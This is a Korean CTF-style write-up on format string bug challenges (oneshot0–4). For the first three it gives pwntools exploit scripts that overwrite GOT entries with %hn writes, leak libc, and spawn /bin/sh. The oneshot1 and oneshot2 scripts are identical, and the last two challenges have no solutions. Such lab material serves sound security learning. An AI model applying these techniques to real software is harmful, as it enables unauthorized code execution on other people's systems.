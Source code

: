 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수의 주소로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%15$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
#log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

#log.info('\tlibc base '+ hex(libc_base))

system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


#log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


#pause()
p.send(payload)

#pause()
p.send(b'/bin/sh\x00')

p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다.
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%15$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
#log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

#log.info('\tlibc base '+ hex(libc_base))

system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


#log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


#pause()
p.send(payload)

#pause()
p.send(b'/bin/sh\x00')

p.interactive()


```




## oneshot3

exit 함수가 존재하지 않으므로 다른 방식의 fsb를 해야 한다.






## oneshot4

전역변수 buf에 입력을 받는 상황이기 때문에 double-staged fsb를 해야 한다.
